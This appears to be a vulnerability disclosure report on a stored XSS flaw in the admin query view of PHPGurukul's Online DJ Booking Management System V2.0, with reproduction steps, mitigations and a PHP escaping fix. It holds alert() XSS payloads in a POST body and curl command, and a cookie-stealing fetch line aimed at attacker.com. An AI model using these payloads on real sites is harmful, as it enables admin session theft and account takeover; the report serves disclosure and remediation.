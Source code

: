 # Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product:

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/admin/view-user-queries.php`                                              |
| **Affected File(s)**    | `odms/admin/view-user-queries.php`                                          |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview:

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user—often an administrator—views the stored data, the script is executed in their browser.

In this case, **anyone can submit a contact us query form** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that query in the dashboard, the script executes in their browser, potentially leading to:

- Cookie theft  
- Session hijacking  
- Unwanted actions performed on behalf of the admin  

---

## Steps to Reproduce:

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS) and located it on my domain name: `pentest1.blackm4c.xyz`.

1. **Open the Contact Us page and fill the form:**

    ```
    https://domain.com/contact.php
    ```

    ![Contact Us page](./images/support_page.png)

2. **Submit the form with XSS payloads using Burp Suite or browser developer tools.**  
   Payloads can be injected into:

    - Name  
    - Email  
    - Message  

    ![Burp Suite Repeater](./images/burp.png)

    Example POST payload:
    ```
    name=<script>alert("from+name+field")</script>&email=<script>alert("from+email+field")</script>&mobnum=123456789&message=<script>alert("from+message+field")</script>&submit=Submit
    ```

    Example `curl` command:
    ```bash
    curl -k -X POST 'https://domain.com/contact.php' \
    -b 'PHPSESSID=e9tr282kpesjphiav73rn8osm3' \
    --data 'name=<script>alert("from name")</script>&email=<script>alert("from email")</script>&mobnum=123456789&message=<script>alert("from message")</script>&submit=Submit'
    ```

3. **Log in to the admin account and navigate to the new Unread Queries:**

    Sidebar → **DASHBOARD** → **Total Unread Queries**

    ```
    https://domain.com/admin/unread-queries.php
    ```

    ![Dashboard page](./images/nav.png)

    After locating the infected query, click the **View** button:

    ![Query list](./images/nav2.png)  
    ![XSS trigger](./images/xss1.png)  
    ![XSS trigger](./images/xss2.png)  
    ![XSS trigger](./images/xss3.png)

    Demonstration of HTML injection:
    ![HTML trigger](./images/finalxss.png)

4. **Viewed queries are moved to the 'Total Read Queries' section:**

    Sidebar → **DASHBOARD** → **Total Read Queries**

    ![Navigation](./images/readmsg.png)

    Clicking again triggers the payload:

    ![XSS trigger](./images/readmsglist.png)

    The XSS payloads will execute via JavaScript `alert()` pop-ups for each infected field.

---

## Impact of Stored XSS

- An authenticated user can submit a query with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and is stored in the backend (Database).
- When the **admin views the query**, the script executes in the admin's browser.
- This can lead to **admin account takeover** by stealing session cookies using payloads like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- The attacker can impersonate the admin and gain full system access.

---

## ✅ Recommended Mitigations

The developer implemented `htmlspecialchars()` in some parts of the system, but missed doing so in `view-user-queries.php`.

- **Input Sanitization:**  
  Strip or escape HTML/JavaScript tags from user inputs before storing.

- **Output Encoding:**  
  Encode output data before rendering (e.g., use `htmlspecialchars()`).

- **Use Templating Engines That Auto-Escape Output:**
  - **Twig:** `{{ name }}` auto-escapes
  - **Blade (Laravel):** `{{ $name }}` auto-escapes

- **Content Security Policy (CSP):**  
  Add a strict CSP header to limit script execution.

- **HTTPOnly Cookies:**  
  Mark session cookies with `HttpOnly` to prevent JavaScript access.

- **Input Validation:**  
  Validate data format, type, and length on all user inputs.

---

## Code Fix

Ensure all echoed data is escaped:

```php
<!-- Before (vulnerable) -->
<td><?php echo $row['name']; ?></td>

<!-- After (secure) -->
<td><?php echo htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8'); ?></td>
```
Apply this change to all user-generated data displayed in view-user-queries.php.

## 📚 References

- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
